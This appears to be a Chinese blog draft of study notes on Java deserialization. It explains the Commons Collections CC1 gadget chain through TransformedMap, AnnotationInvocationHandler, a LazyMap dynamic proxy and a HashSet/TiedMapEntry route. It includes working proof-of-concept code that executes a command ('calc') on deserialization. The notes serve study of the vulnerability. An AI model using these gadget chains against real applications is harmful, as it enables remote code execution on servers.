---
title: "javasec学习中遇到的一些问题"
date: 2025-11-30T12:56:50+08:00
summary: "浅浅总结一下这段时间javasec学习中遇到的一些问题吧"
url: "/posts/javasec学习中遇到的一些问题/"
categories:
  - "javasec"
tags:
  - "java小总结"
draft: true
---

嗯。。。算是一个对之前遇到的一些问题的一个总结吧，因为前两天有师傅问到我一个问题



但是我在回顾的时候发现自己确实不是很清楚这个问题，那就浅浅回去再复习一下吧

# CC1中TransformedMap如何触发setValue

这个是我当时开始学习Java的时候遇到的第一个问题，也是当时很难理解的（现在肯定就很好理解了），那我们重新来看一下

因为需要触发TransformedMap#checkSetValue()，所以我们来到了AbstractInputCheckedMapDecorator#setValue()

```java
@Override
public V setValue(V value) {
    value = parent.checkSetValue(value);
    return getMapEntry().setValue(value);
}
```

可以看到这里需要让parent为TransformedMap对象，并且这个setValue方法是重写的



观察到AbstractInputCheckedMapDecorator中的内部类MapEntry是继承于AbstractMapEntryDecorator，

`AbstractMapEntryDecorator` 是 Apache Commons Collections 库中的一个抽象类,它实现了装饰器模式来包装 `Map.Entry` 对象

我们跟进看看这个类

```java
public abstract class AbstractMapEntryDecorator<K, V> implements Map.Entry<K, V>, KeyValue<K, V> {

    /** The <code>Map.Entry</code> to decorate */
    private final Map.Entry<K, V> entry;

    /**
     * Constructor that wraps (not copies).
     *
     * @param entry  the <code>Map.Entry</code> to decorate, must not be null
     * @throws IllegalArgumentException if the collection is null
     */
    public AbstractMapEntryDecorator(final Map.Entry<K, V> entry) {
        if (entry == null) {
            throw new IllegalArgumentException("Map Entry must not be null");
        }
        this.entry = entry;
    }

    /**
     * Gets the map being decorated.
     *
     * @return the decorated map
     */
    protected Map.Entry<K, V> getMapEntry() {
        return entry;
    }

    //-----------------------------------------------------------------------

    public K getKey() {
        return entry.getKey();
    }

    public V getValue() {
        return entry.getValue();
    }

    public V setValue(final V object) {
        return entry.setValue(object);
    }

    @Override
    public boolean equals(final Object object) {
        if (object == this) {
            return true;
        }
        return entry.equals(object);
    }

    @Override
    public int hashCode() {
        return entry.hashCode();
    }

    @Override
    public String toString() {
        return entry.toString();
    }

}
```

这个类是引入了Map.Entry接口，并重写了Map.Entry键值对接口的一些基础方法，那么这里重写的其实就是

我们来看到TransformedMap类，这个类继承了AbstractInputCheckedMapDecorator类



但是里面并没有entrySet方法，此时如果我们调用entrySet方法，根据java调用函数的优先级，当前类找不到就会从父类中调用entrySet方法，也就是AbstractInputCheckedMapDecorator类



会调用到TransformedMap中的isSetValueChecking函数



只要valueTransformer不是空的就会返回true了，所以这里是恒为true的

进入内层if

```java
new EntrySet(map.entrySet(), this);
```

用内部静态类的构造器EntrySet() 实例化EntrySet类，其中parent是对象TransformedMap，那么map.entrySet()就会获取到TransformedMap对象中的键值对形成一个集合Set

此时我们传入一个键值对在TransformedMap对象中，然后去遍历TransformedMap的键值对，然后调用setValue，此时就可以调用到父类AbstractInputCheckedMapDecorator类的setValue

就有了这个poc

```java
        Runtime rt = Runtime.getRuntime();

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});

        HashMap<Object ,Object> map = new HashMap<>();
        Map<Object, Object> tm = TransformedMap.decorate(map, null, invokerTransformer);

        map.put("key","value");

        for(Map.Entry entry: tm.entrySet()) {
            entry.setValue(rt);
        }
    }
```





# CC1中AnnotationInvocationHandler中的问题

这个其实也是我之前比较模糊的一个知识点

在AnnotationInvocationHandler#readObject方法中，在触发setValue之前有两个if语句的条件判断



一个是memberType是否不为null的问题，一个是检查value的类型，第二个if是不影响的，只看第一个就行

## memberType是否不为null的问题

首先是memberType的值，我们跟进看一下他怎么来的

```java
Class<?> memberType = memberTypes.get(name);
```

从memberTypes中获取键为name的值，跟进memberTypes看看
```java
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
```

memberTypes是一个Map类型，键是String，值是一个Class，通过annotationType的memberTypes方法的调用返回值来的，继续跟进

```java
AnnotationType annotationType = null;

annotationType = AnnotationType.getInstance(type);
```

AnnotationType类是一个内置类，用于**缓存和管理注解类型的元数据**，包含注解的所有成员信息、默认值等

这里通过调用getInstance获取返回type该注解类型对应的 `AnnotationType` 实例

而`annotationType.memberTypes()` 方法用于**获取注解中所有成员的类型映射**

例如

```java
// 定义注解
@interface UserInfo {
    String name();              // 成员1
    int age();                  // 成员2
    String[] hobbies();         // 成员3
    Class<?> type();            // 成员4
    boolean active() default true;  // 成员5（带默认值）
}

// 获取成员类型映射
AnnotationType annotationType = AnnotationType.getInstance(UserInfo.class);
Map<String, Class<?>> memberTypes = annotationType.memberTypes();

// memberTypes 的内容：
// {
//     "name"    -> String.class,
//     "age"     -> int.class,
//     "hobbies" -> String[].class,
//     "type"    -> Class.class,
//     "active"  -> boolean.class
// }

// 使用示例
Class<?> nameType = memberTypes.get("name");     // String.class
Class<?> ageType = memberTypes.get("age");       // int.class
Class<?> hobbiesType = memberTypes.get("hobbies"); // String[].class
```

所以我们需要放入一个有值的注解，并且要将注解中的有值成员放入Map的key中，这样在getKey去赋值给name的时候就能获取到这个成员



发现Target里有 value方法

所以这里我们修改Override.class为Target.class，然后更改Map中的Key为这个方法名value



打个断点调试一下



可以看到这里的key就是我们的value方法，到此第一个if就通过了

现在能正常通过两个if语句了，但是我们可以看到这里的setValue中的参数是固定的无法修改

## setValue里的value不可控的问题



会实例化一个AnnotationTypeMismatchExceptionProxy对象，并通过调用setMember方法获得返回值作为setValue中的value传入，通过溯源我们之前分析的CC1链就会发现，最终的serValue的value会传入以下的内容

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
->
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
->
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

那么此时我们需要设置一个实现了transform函数的类并且能返回固定值的，这样在第一次循环的时候就不会受影响

因此我们找到一个ConstantTransformer，他能固定返回iConstant的值



那么不管我们传入的value是什么他都能返回该值，并且该值是可控的

```java
public Object transform(Object input) {
    return iConstant;
}
```

所以我们最终设置的transformers数组就是

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

# CC1动态代理触发invoke

再次梳理一下如何利用动态代理去触发invoke

在LazyMap#get方法中有调用到transform方法

```java
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

这里的key就是传入LazyMap的map键值对的key

写个demo就可以看到了

```java
    public static void main(String[] args) throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("key1","value1");
        Map<Object,Object> lazyMap = LazyMap.decorate(map,constantTransformer);
        System.out.println(lazyMap.get("key1"));
    }
//value1
```

LazyMap跟TransformedMap一样，可以直接用decorate方法去创建实例

如果查找的key不存在map中，就会调用transform方法，并将key传入

而factory是Transformer类型

```java
protected final Transformer factory;
```

继续回溯，看看哪里调用到get方法



可以看到AnnotationInvocationHandler#invoke中调用到了get方法，设置这里的memberValues就行了

关键就在于如何触发invoke

关于动态代理可以看：https://www.cnblogs.com/huansky/p/9573202.html

先来了解一下动态代理机制的几个特点：

- 动态代理类通常代理接口下的所有类
- 动态代理的调用处理程序必须事先声明InvocationHandler接口，及使用Proxy类中的newProxyInstance方法动态的创建代理类。
- Java动态代理只能代理接口

例如我们这里定义一个接口

```java
public interface Person {
    void setName(String name);
}
```

然后我们定义一个Student类去实现这个接口

```java
package SerializeChains.CCchains.CC1;

public class Student implements Person{
    String name;

    public Student(String name) {
        this.name = name;
    }

    @Override
    public void setName(String Name) {
        name = Name;
        System.out.println("Student name set to " + Name);
    }
}
```

接着我们定义一个接入InvocationHandler的Handler

```java
package SerializeChains.CCchains.CC1;


import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;

public class PersonHandler implements InvocationHandler {
    private  Object mTarget;

    public PersonHandler(Object target) {
        mTarget = target;
    }

    @Override
    public Object invoke(Object o, Method method, Object[] objects) throws Throwable {
        System.out.println("method's name is " + method.getName());
        System.out.println("invoke method");
        return null;
    }
}
```

然后我们进行动态代理的操作

```java
package SerializeChains.CCchains.CC1;

import java.lang.reflect.Proxy;

public class Test {
    public static void main(String[] args) throws Exception {
        //创建一个被代理的对象
        Person student = new Student("wanth3f1ag");
        //创建一个 InvocationHandler
        PersonHandler personHandler = new PersonHandler(student);
        //创建一个代理对象 stuProxy 来代理 student，代理对象的每个执行方法都会替换执行 Invocation 中的 invoke 方法
        Person stuProxy = (Person) Proxy.newProxyInstance(Person.class.getClassLoader(),new Class<?>[]{Person.class},personHandler);

        //调用被代理对象的方法
        stuProxy.setName("hahaha");
    }
}
//method's name is setName
//invoke method
```

可以看到此时我们调用被代理对象的方法的时候就会调用到PersonHandler的invoke方法

如果是序列化和反序列化操作呢？

**在Java的动态代理机制中，当我们序列化一个代理对象时，Java会保存该对象的InvocationHandler，在反序列化时，Java会重新创建代理对象，并将保存的InvocationHandler 关联到创建的代理对象上，此时当我们调用到代理对象的任何方法时，都会通过InvocationHandler 的invoke方法。**

InvocationHandler是一个接口，里面定义了代理对象如何处理方法调用，需要实现一个invoke方法

然后我们看看proxy中的newProxyInstance方法

```java
    @CallerSensitive
    public static Object newProxyInstance(ClassLoader loader,
                                          Class<?>[] interfaces,
                                          InvocationHandler h)
        throws IllegalArgumentException
    {
        Objects.requireNonNull(h);

        final Class<?>[] intfs = interfaces.clone();
        final SecurityManager sm = System.getSecurityManager();
        if (sm != null) {
            checkProxyAccess(Reflection.getCallerClass(), loader, intfs);
        }

        /*
         * Look up or generate the designated proxy class.
         */
        Class<?> cl = getProxyClass0(loader, intfs);

        /*
         * Invoke its constructor with the designated invocation handler.
         */
        try {
            if (sm != null) {
                checkNewProxyPermission(Reflection.getCallerClass(), cl);
            }

            final Constructor<?> cons = cl.getConstructor(constructorParams);
            final InvocationHandler ih = h;
            if (!Modifier.isPublic(cl.getModifiers())) {
                AccessController.doPrivileged(new PrivilegedAction<Void>() {
                    public Void run() {
                        cons.setAccessible(true);
                        return null;
                    }
                });
            }
            return cons.newInstance(new Object[]{h});
        } catch (IllegalAccessException|InstantiationException e) {
            throw new InternalError(e.toString(), e);
        } catch (InvocationTargetException e) {
            Throwable t = e.getCause();
            if (t instanceof RuntimeException) {
                throw (RuntimeException) t;
            } else {
                throw new InternalError(t.toString(), t);
            }
        } catch (NoSuchMethodException e) {
            throw new InternalError(e.toString(), e);
        }
    }
```

需要一个被代理对象的类加载器，需要实现的接口以及需要委托方法调用的InvocationHandler

所以我们就可以序列化一个实现了序列化接口的代理对象，并指定InvocationHandler为AnnotationInvocationHandler，这样在这个代理对象的方法被调用的时候就能触发AnnotationInvocationHandler的invoke方法，从而触发transform

```java
        //Proxy动态代理触发LazyMap#get()
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructorhandler = handler.getDeclaredConstructor(Class.class, Map.class);
        constructorhandler.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructorhandler.newInstance(Override.class,lazyMap);
        Map proxyedMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);

        Object obj = constructorhandler.newInstance(Override.class,proxyedMap);

        serialize(obj);
        unserialize("CC1plus.txt");
```

可以看到我序列化的对象是AnnotationInvocationHandler的实例化对象，那么在反序列化的时候就会调用AnnotationInvocationHandler#readObject，因为AnnotationInvocationHandler的readObject可以接受一个map，就让它代理一个map，那么在readObject中



memberValues.entrySet()的调用会触发invoke，所以最终的调用栈是

```java
transform:122, ChainedTransformer (org.apache.commons.collections.functors)
get:158, LazyMap (org.apache.commons.collections.map)
invoke:77, AnnotationInvocationHandler (sun.reflect.annotation)
entrySet:-1, $Proxy0 (com.sun.proxy)
readObject:444, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:84, CC1plus (SerializeChains.CCchains.CC1)
main:63, CC1plus (SerializeChains.CCchains.CC1)
```

# HashSet触发LazyMap#get

在HashSet#readObject中



`map.put(e, PRESENT);`这里可以触发任意map类型的put方法，我们看看这个map和e是怎么赋值的

```java
public HashSet() {
    map = new HashMap<>();
}
```

只要利用无参构造函数实例化一个HashSet对象就会实例化一个HashMap对象赋值给map

但是在readObject中的e是经过处理的，我们需要另外对e进行操作

看到HashSet#add()方法

```java
public boolean add(E e) {
    return map.put(e, PRESENT)==null;
}
```

这里会调用HashMap#put方法，此时e就是key，我们跟进HashMap#put

```java
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

会先对key进行hash函数计算哈希

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

这里key作为对象，会调用任意对象的hashCode方法，这就跟CC3中一样了，设置key为TiedMapEntry对象，就会来到TiedMapEntry#hashCode

```java
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
    public Object getValue() {
        return map.get(key);
    }
```

这里设置map为LazyMap对象就能调用到LazyMap的get方法

所以我们可以总结出从HashSet到LazyMap触发get的链子

```java
java.util.HashSet#readObject()
    ->HashMap#put()
    ->java.util.HashMap#hash()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
    		->org.apache.commons.collections.map.LazyMap#get()
```

但是这里的话需要对HashSet里面的map的键值对进行操作就相对麻烦一点

```java
 public static HashSet getHashSet(Object obj) throws Exception {
        HashSet set = new HashSet();
        set.add("aaa");//设置一个HashMap，key为aaa

        //设置map为HashMap
        Field map = set.getClass().getDeclaredField("map");
        map.setAccessible(true);
        HashMap map1 = (HashMap) map.get(set);

        //获取HashMap的键值对
        Field table = map1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(map1);
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        //获取其中的key并设置为obj
        setFieldValue(node, "key", obj);
        return set;
    }
```

这里的obj就是我们需要传入HashMap的key，根据链子来看就是TiedMapEntry对象
